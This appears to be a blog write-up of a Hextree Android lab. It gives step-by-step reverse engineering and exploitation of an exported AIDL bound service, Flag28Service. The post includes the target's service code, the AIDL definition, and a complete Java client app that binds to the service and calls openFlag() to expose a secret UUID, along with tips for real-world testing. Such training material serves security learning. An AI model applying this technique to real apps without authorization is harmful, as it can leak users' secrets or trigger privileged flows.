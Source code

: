 ```yaml
---
layout: post
title: Flag28Service AIDL Binding Walkthrough (Hextree Lab)
categories: android
description: A step-by-step guide to reverse engineering and exploiting an exported Android AIDL-based bound Service from another app.
summary: A step-by-step guide to reverse engineering and exploiting an exported Android AIDL-based bound Service from another app.
date: 2025-06-15  
tags:
- android  
- aidl  
- binder  
- reverse engineering 
- inter-process communication 
- hextree  
- penetration testing  
- android security  
image: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSXmYjvkPoTPJk7lEIJpt19Z24OkecfMezJNg&s 
read_time: 3 minute read
pin: false
comments: true
toc: true
---
```



## 📌 Lab Objective

The goal of this Hextree challenge is to interact with an **exported bound Android service** (`Flag28Service`) from a different app (our attacking app) by leveraging **AIDL (Android Interface Definition Language)**. Once the AIDL interface is properly bound and invoked, a flag activity is launched containing a secret UUID.

---

## 🔍 Reconnaissance

Inspecting the AndroidManifest of the target app, we find this service:

```xml
<service
    android:name="io.hextree.attacksurface.services.Flag28Service"
    android:enabled="true"
    android:exported="true"/>
````

✅ The `android:exported="true"` line means any app on the device can bind to this service — if it knows how.

---

## 🧠 Understanding the Service Code

Here’s what `Flag28Service.java` does:

```java
public class Flag28Service extends Service {
    public static String secret = UUID.randomUUID().toString();
    private final IFlag28Interface.Stub binder = new IFlag28Interface.Stub() {
        @Override
        public boolean openFlag() throws RemoteException {
            return success();
        }

        public boolean success() {
            Intent intent = new Intent();
            intent.setClass(Flag28Service.this, Flag28Activity.class);
            intent.putExtra("secret", Flag28Service.secret);
            intent.addFlags(268468224);
            intent.putExtra("hideIntent", true);
            Flag28Service.this.startActivity(intent);
            return true;
        }
    };

    @Override
    public IBinder onBind(Intent intent) {
        Log.i("Flag28Service", Utils.dumpIntent(this, intent));
        return this.binder;
    }
}
```

* When `openFlag()` is called, it launches `Flag28Activity` with the `secret` in the intent.
* That function is exposed via **AIDL**.

---

## 🔧 Step-by-Step Exploit via AIDL

### 1. 🔎 Get the AIDL Definition

From decompiled code, we extract the AIDL interface:

```java
package io.hextree.attacksurface.services;

interface IFlag28Interface {
    boolean openFlag();
}
```

Create this file in your client app:

```
app/src/main/aidl/io/hextree/attacksurface/services/IFlag28Interface.aidl
```

> 📚 [AIDL Documentation](https://developer.android.com/guide/components/aidl)

Then rebuild the project. This will generate a stub interface your app can use to call the service.

### 2. 🏗️ Create a Client App to Bind to the Service

No special permission is needed to bind to exported services.

#### `HextreeActivity.java`

```java
public class HextreeActivity extends AppCompatActivity {
    boolean isBound = false;
    IFlag28Interface remoteservice;

    ServiceConnection connection = new ServiceConnection() {
        public void onServiceConnected(ComponentName name, IBinder service) {
            remoteservice = IFlag28Interface.Stub.asInterface(service);
            isBound = true;
            sendMessageToService();
        }

        public void onServiceDisconnected(ComponentName name) {
            isBound = false;
            remoteservice = null;
        }
    };

    public void sendMessageToService() {
        if (!isBound) return;
        try {
            remoteservice.openFlag();
        } catch (RemoteException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button attackButton = findViewById(R.id.attack);
        attackButton.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag28Service");
            bindService(intent, connection, Context.BIND_AUTO_CREATE);
        });
    }

    @Override
    protected void onDestroy() {
        if (isBound) {
            unbindService(connection);
            isBound = false;
        }
        super.onDestroy();
    }
}
```

#### Layout: `activity_main.xml`

```xml
<Button
    android:id="@+id/attack"
    android:layout_width="wrap_content"
    android:layout_height="wrap_content"
    android:text="Launch Flag Service" />
```

---

## 🧪 Testing the Attack

1. Install the vulnerable target app.
2. Install and run your client app.
3. Tap the button → it binds to the service.
4. Calls `openFlag()` → starts `Flag28Activity` with the flag.

🎉 You now have access to the secret UUID stored statically in the service.

---

## 🔐 Why This Works

* **AIDL** enables IPC in Android. If a service is exported and implements an AIDL interface, **any app can use it** — as long as it has the correct `.aidl` definition.
* The Binder framework ensures capability-based access, so possession of the IBinder gives you the power to call the methods.

---

## 📚 Resources

* [Android AIDL Guide](https://developer.android.com/guide/components/aidl)
* [Binder Internals (Google)](https://android.googlesource.com/platform/frameworks/native/+/refs/heads/main/cmds/servicemanager/README.md)
* [Binder IPC Deep Dive](https://dev.to/paulshen/android-ipc-binder-introduction-1e4c)
* Hextree CTF Labs – Android IPC + Reverse Engineering Challenges

---

## 🧠 Notes for Real-World Testing

* Always check for `exported=true` in the target app's `AndroidManifest.xml`.
* Decompile APKs using tools like jadx or apktool to extract `.aidl` files.
* Verify if the service performs security checks (e.g., caller package, signature).

---

## ✅ Summary

This lab demonstrates how exported AIDL-based services can become attack surfaces. By reverse engineering the `.aidl`, replicating it, and binding from your own app, you can trigger privileged flows like opening hidden activities or leaking secrets — all by using Binder IPC correctly.

> The power of Android IPC becomes a vulnerability when misconfigured.